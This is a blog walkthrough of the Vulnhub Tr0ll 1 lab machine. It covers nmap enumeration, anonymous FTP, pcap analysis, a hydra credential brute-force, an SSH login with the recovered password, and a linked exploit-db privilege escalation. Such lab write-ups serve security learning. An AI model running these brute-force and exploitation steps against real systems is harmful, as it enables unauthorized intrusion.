 ```yaml
---
layout: post
title: "Vulnhub Tr0ll 1"
source: "https://anotsodev.me/vulnhub-tr0ll-1/"
author:
  - "anotsodev"
date: 2017-08-25
description: "Started with the Nmap Scan # Nmap 7.40 scan initiated Thu Aug 3 20:58:47 2017 as: nmap -sC -sV -oA nmap 192.168.8.102 Nmap scan report for 192.168.8.102 Host is up (0.0035s latency). Not shown: 997…"
tags:
  - "cybersecurity"
  - "information-security"
---
```

Started with the Nmap Scan

```
# Nmap 7.40 scan initiated Thu Aug  3 20:58:47 2017 as: nmap -sC -sV -oA nmap 192.168.8.102
Nmap scan report for 192.168.8.102
Host is up (0.0035s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap [NSE: writeable]
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d6:18:d9:ef:75:d3:1c:29:be:14:b5:2b:18:54:a9:c0 (DSA)
|   2048 ee:8c:64:87:44:39:53:8c:24:fe:9d:39:a9:ad:ea:db (RSA)
|_  256 0e:66:e6:50:cf:56:3b:9c:67:8b:5f:56:ca:ae:6b:f4 (ECDSA)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/secret
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug  3 20:59:07 2017 -- 1 IP address (1 host up) scanned in 19.95 seconds
```
- port 21
- port 22
- port 80

![screenshot-from-2017-08-07-14-59-21-e1503681730435.png](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot-from-2017-08-07-14-59-21-e1503681890612.png?resize=734%2C585&ssl=1)

![screenshot20from202017-08-072015-02-06.png](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot20from202017-08-072015-02-06-e1503681876965.png?resize=656%2C296&ssl=1)

There is a directory in the web server named secret. So I opened the /secret directory and it showed me this.

![screenshot20from202017-08-072015-03-20.png](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot20from202017-08-072015-03-20-e1503682119899.png?resize=745%2C650&ssl=1)

And yes, it made me mad after seeing this.

Continuing my enumeration, I saw that the FTP server allows anonymous login, so I fired up my Filezilla and browse the FTP server. There is a file there named lol.pcap. Pcap is a file that contains the captured network traffics from network analyzers such as Wireshark and some other tools. So to open the pcap file, I launched Wireshark and read the pcap file. It showed me this.

![screenshot20from202017-08-032021-37-00-e1503682196980.png](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot20from202017-08-032021-37-00-e1503710304210.png?resize=1170%2C610&ssl=1)

I noticed the “sup3rs3cr3tdirlol” and tried to open it and voila.

![screenshot20from202017-08-072015-13-36.png](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot20from202017-08-072015-13-36-e1503682263987.png?resize=548%2C388&ssl=1)

I downloaded the file named roflmao then run the file command to determine the filetype of the downloaded file. It shows that it is an ELF 32-bit LSB executable.

```
kaipowered@debian:~/Documents/Vulnhub/tr0ll$ file roflmao 
roflmao: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=5e14420eaa59e599c2f508490483d959f3d2cf4f, not stripped
```

So the next thing I did was to run the gdb then run the executable file.

```
GNU gdb (Debian 7.12-6) 7.12.0.20161007-git
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from roflmao...(no debugging symbols found)...done.
(gdb) run
Starting program: /home/kaipowered/Documents/Vulnhub/tr0ll/roflmao 
Find address 0x0856BF to proceed[Inferior 1 (process 10058) exited with code 040]
(gdb)
```

The output showed me this

```
Find address 0x0856BF to proceed[Inferior 1 (process 10058) exited with code 040]
```

I tried to find the said address but I wasn’t able to find it in the memory, so I tried opening it on the web browser and it appears that it is a directory on the web server (luck I guess).

![screenshot20from202017-08-072015-24-34](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot20from202017-08-072015-24-34-e1503682433212.png?resize=659%2C390&ssl=1)

```
hydra -L which_one_lol.txt -P Pass.txt 192.168.8.102
```

At first, the usernames and passwords combination did not work, so it was so frustrating.

```
hydra -L which_one_lol.txt -p Pass.txt 192.168.8.102
```

But it appears that the real password is the “Pass.txt”, so I just changed the option from -P to -p, meaning, with the given password, try the usernames from which\_one\_lol.txt to match the correct combinations with hydra.

After bruteforcing, I was able to get the username and password of the machine.

```
username: overflow
password: Pass.txt
```

Commands Used

```
kaipowered@debian:~/Documents/Vulnhub/tr0ll$ ssh overflow@192.168.8.102
overflow@192.168.8.102's password: 
Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sun Aug  6 23:35:25 2017 from 192.168.8.2
Could not chdir to home directory /home/overflow: No such file or directory
$
```

https://www.exploit-db.com/exploits/37292/

And after successfully exploited the tr0ll vm, I was able to get and read the Proof.txt that can be found in /root directory.

— FIN —

Solving this challenge was quite frustrating at first because, you know, the tr0ll is trolling you, but most of the time, when I found something interesting and it just appeared that I have been tr0lled, I just found myself grinning while clenching my fists, but of course I enjoyed solving this challenge.